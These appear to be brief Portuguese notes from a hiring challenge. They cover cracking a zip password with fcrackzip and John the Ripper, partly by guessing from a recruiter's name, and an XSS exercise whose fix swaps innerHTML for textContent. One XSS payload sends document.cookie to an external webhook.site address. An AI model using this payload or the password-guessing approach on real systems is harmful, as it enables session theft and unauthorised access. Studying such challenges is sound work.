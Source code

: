 testar variações com força bruta:
    - fcrackzip -u -b -c 1a -l 1-3 desafio.zip

Tentar senhas obvias:
    senha
    password
    senha123
    password123
    dti
    dtidigita
    anna

procurar no linkedin da recrutadora, na pagina da vaga, entre outros locais;

Testar variações com dti
Testar variações com dtidigital
testar variacoes com anna
testar variacoes com annaLuisa

utilizar john-jumbo
    - senha encontrada oopasswordoo
    - https://www.kali.org/tools/john/


<img src=x onerror="alert(document.cookie)">

<img src="x" onerror="fetch('https://webhook.site/612782d7-71cc-4c36-8869-472cd8b9c56d?c='+document.cookie); alert(document.cookie)">

solução: trocar newEntry.innerHTML = entry; por newEntry.textContent = entry;

document.cookie = "flag=XSS_FLAG_YOU_DID_IT; HttpOnly; Secure"; // Adicionar flags de segurança
